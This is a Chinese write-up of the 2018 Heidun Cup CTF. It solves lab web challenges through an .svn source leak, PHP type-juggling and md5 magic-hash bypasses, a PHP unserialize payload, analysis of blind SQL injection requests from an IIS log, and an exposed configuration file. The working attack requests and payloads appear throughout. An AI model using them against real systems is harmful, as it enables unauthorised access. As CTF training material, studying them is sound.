

2018/9/16  福师大黑盾杯



# 信息泄露+代码审计

svn泄露源码：http://192.168.200.200/web/codeaudit/.svn/text-base/index.php.svn-base.txt 

```php
<?php
error_reporting(0);
$user = $_COOKIE['user'];
$code = $_GET['code']?(int)$_GET['code']:'';
if($user == 'admin' && !empty($code)) {
	$hex = (int)$code;
	if(($hex ^ 6789) === 0xCDEF) {
		require("flag.php");
		echo $flag;
		exit();
	}	
echo "ȱ��Ӧ�еIJ���,��û��Ȩ�޲鿴������";
?>
```

`GET` 请求`code=55146` ，  请求头添加`Cookie: user=admin;` 。

`flag{a737c5c5b759c3705c8100accf65b5e4}` 

# 最好的语言

```php
<?php 
show_source(__FILE__); 
$a=0; 
$b=0; 
$c=0; 
$d=0; 
if (isset($_GET['x1'])) //$x1=0;=>$a=1;
{ 
        $x1 = $_GET['x1']; 
        $x1=="1"?die("ha?"):NULL; 
        switch ($x1) 
        { 
        case 0: 
        case 1: 
                $a=1; 
                break; 
        } 
} 
$x2=(array)json_decode(@$_GET['x2']); 
//$x2=json_encode(['x21'=>'2018hello','x22'=>[[],0]]) ;
//string(32) "{"x21":"2018hello","x22":[[],0]}"
if(is_array($x2)){ 
    is_numeric(@$x2["x21"])?die("ha?"):NULL; 
    if(@$x2["x21"]){ 
        ($x2["x21"]>2017)?$b=1:NULL; 
    } 
    if(is_array(@$x2["x22"])){ 
        if(count($x2["x22"])!==2 OR !is_array($x2["x22"][0])) die("ha?"); 
        $p = array_search("XIPU", $x2["x22"]); 
        //array_search — 在数组中搜索给定的值，如果成功则返回相应的键名 
        //mixed array_search( mixed $needle, array $haystack[, bool $strict = false] )
        //第三个参数决定在搜索时是否比较类型，默认不比较，也是这里能够绕过的原因。
        //var_dump(array_search('XIPU', array("0","1",0)));//int(2)
        //0==‘XIPU’为真，搜索到0值的下标为2
        $p===false?die("ha?"):NULL; 
        foreach($x2["x22"] as $key=>$val){ 
            $val==="XIPU"?die("ha?"):NULL; 
        } 
        $c=1; 
} 
} 
$x3 = $_GET['x3']; 
if ($x3 != '15562') { 
    if (strstr($x3, 'XIPU')) { 
        if (substr(md5($x3),8,16) == substr(md5('15562'),8,16)) { 
            //两个符合正则  /0e\d+/  的字符串弱相等。
            // 爆破见下方python代码
            $d=1; 
        } 
    } 
} 
if($a && $b && $c && $d){ 
    include "flag.php"; 
    echo $flag; 
} 
?>
```

```python
def brute():
    for a in range(0x20, 0x7f):
        for b in range(0x20, 0x7f):
            for c in range(0x20, 0x7f):
                    x = chr(a) + chr(b) + chr(c)+s
                    mm=md5(x.encode('UTF-8')).hexdigest()
                    flag=1
                    for i in mm[10:24]:
                        if i not in '0123456789':
                            flag=0
                            break
                    if flag and mm[8:10]=='0e':
                        print(x)

brute()
# kN[XIPU
# v=|XIPU
# y'wXIPU
# }MOXIPU
# ~VhXIPU
## http://192.168.200.200/web/bestlanguage/?x1=0&x2={%22x21%22:%222018hello%22,%22x22%22:[[],0]}&x3=~VhXIPU
## flag{510ea2879fa29d0d618b1f55350965c3}
```

# the user is admin

和 bugku 平台某个题目原理一致，只有文件名和部分字符串不同，可以参考 [该题](https://findneo.github.io/180406BugkuWriteup/#welcome-to-bugkuctf) ，不赘述。

```php
/web/theuserisadmin/?file=class.php&user=php://input&pass=O:4:"Read":1:{s:4:"file";s:8:"f1a9.php";}

post:the user is admin
    
//flag{078d8dd8023d5716a11780adf344dfd2}
```

# ccgs


```python
binwalk -e sgcc.png
cat secret.txt | base64 -d | base64 -d > final.png
//原本用notepad++解码base64，然后拷贝到winhex不成功。后来用这么一句话解决了，很舒服
//Linux大法好 \o/
```


# 注入日志分析

**author: [Mads](https://madsome.one/) **  

给了一个日志文件，`file data.log`得到是一个文本文件，直接打开，前几行是

```
#Software: Microsoft Internet Information Services 6.0
#Version: 1.0
#Date: 2015-10-21 09:16:34
```

猜测是IIS服务器记录的流量日志， 分析前几行

```
2015-10-21 09:16:34 W3SVC1 192.168.1.135 GET /index.htm - 80 - 192.168.1.101 Mozilla/5.0+(Macintosh;+Intel+Mac+OS+X+10.10;+rv:41.0)+Gecko/20100101+Firefox/41.0 200 0 0
2015-10-21 09:16:34 W3SVC1 192.168.1.135 GET /favicon.ico - 80 - 192.168.1.101 Mozilla/5.0+(Macintosh;+Intel+Mac+OS+X+10.10;+rv:41.0)+Gecko/20100101+Firefox/41.0 404 0 2
2015-10-21 09:16:36 W3SVC1 192.168.1.135 GET /show.asp id=2 80 - 192.168.1.101 Mozilla/5.0+(Macintosh;+Intel+Mac+OS+X+10.10;+rv:41.0)+Gecko/20100101+Firefox/41.0 200 0 0
2015-10-21 09:25:01 W3SVC1 192.168.1.135 GET /show.asp id=2%27|17|80040e14|字符串_''_之前有未闭合的引号。 80 - 192.168.1.101 Mozilla/5.0+(Macintosh;+Intel+Mac+OS+X+10.10;+rv:41.0)+Gecko/20100101+Firefox/41.0 500 0 0
```

可以看到就是一条条的HTTP请求，并且后面跟着状态码。继续浏览，看到`id`字段出现一些`SQL`的关键字，那么可以想到这记录的就是`sqlmap`(或许)的注入流量分析。思路就是找到关键的注入请求，文件很大，我们可以搜索`flag`试试，找到关键的请求如下

```
...
2015-10-21 09:32:35 W3SVC1 192.168.1.135 GET /show.asp id=2%20AND%20UNICODE%28SUBSTRING%28%28SELECT%20ISNULL%28CAST%28LTRIM%28STR%28COUNT%28DISTINCT%28theflag%29%29%29%29%20AS%20NVARCHAR%284000%29%29%2CCHAR%2832%29%29%20FROM%20tourdata.dbo.news%29%2C1%2C1%29%29%3E51|18|800a0bcd|BOF_或_EOF_中有一个是“真”，或者当前的记录已被删除，所需的操作要求一个当前的记录。 80 - 192.168.1.101 Mozilla/5.0+(Windows;+U;+Windows+NT+6.0;+en-US;+rv:1.9.1b4)+Gecko/20090423+Firefox/3.5b4+GTB5+(.NET+CLR+3.5.30729) 500 0 0
2015-10-21 09:32:35 W3SVC1 192.168.1.135 GET /show.asp id=2%20AND%20UNICODE%28SUBSTRING%28%28SELECT%20ISNULL%28CAST%28LTRIM%28STR%28COUNT%28DISTINCT%28theflag%29%29%29%29%20AS%20NVARCHAR%284000%29%29%2CCHAR%2832%29%29%20FROM%20tourdata.dbo.news%29%2C1%2C1%29%29%3E48 80 - 192.168.1.101 Mozilla/5.0+(Windows;+U;+Windows+NT+6.0;+en-US;+rv:1.9.1b4)+Gecko/20090423+Firefox/3.5b4+GTB5+(.NET+CLR+3.5.30729) 200 0 0
...
```

可以利用文本编辑器如`sublime text 3`的`ctrl+H`的替换功能， 将关键流量进行精简并`urldecode`利于分析(截取两个代表性请求)

```
id=2 AND UNICODE(SUBSTRING((SELECT ISNULL(CAST(LTRIM(STR(COUNT(DISTINCT(theflag)))) AS NVARCHAR(4000)),CHAR(32)) FROM tourdata.dbo.news),1,1))>51|18|800a0bcd|BOF_或_EOF_中有一个是“真”，或者当前的记录已被删除，所需的操作要求一个当前的记录。 500 0 0
id=2 AND UNICODE(SUBSTRING((SELECT ISNULL(CAST(LTRIM(STR(COUNT(DISTINCT(theflag)))) AS NVARCHAR(4000)),CHAR(32)) FROM tourdata.dbo.news),1,1))>48 80 200 0 0
```

可以看到这里是二分法盲注的HTTP请求，现在思路很明确了， 从`SUBSTRING(.*, 1, 1)`开始找，并且只要看最后几条的注入请求就可以判断出字符是多少。 比如`SUBSTRING(.*, 1, 1) > 48`的状态码是`200`，`SUBSTRING(.*, 1, 1) > 49`的状态码是`500`，那其实就可以确定字符的ascii码是49。就这样就能得到`theflag`的值。

# brightstar

[列移位密码](https://ctf-wiki.github.io/ctf-wiki/crypto/classical/others/#_9) 

# 这是啥呀

base32编码

# 下午

CMSeeK 扫出配置文件 http://192.168.200.202//configuration.php.txt 

底部有flag: `flag{0b58f603ff55c0c190502b44b4ffbf2c}`  

此外一些没进一步利用上的信息和部分题目的附件放在[GiIthub](https://github.com/findneo/ctfgodown/blob/master/20180916heidun/) 上，有兴趣可移步查看。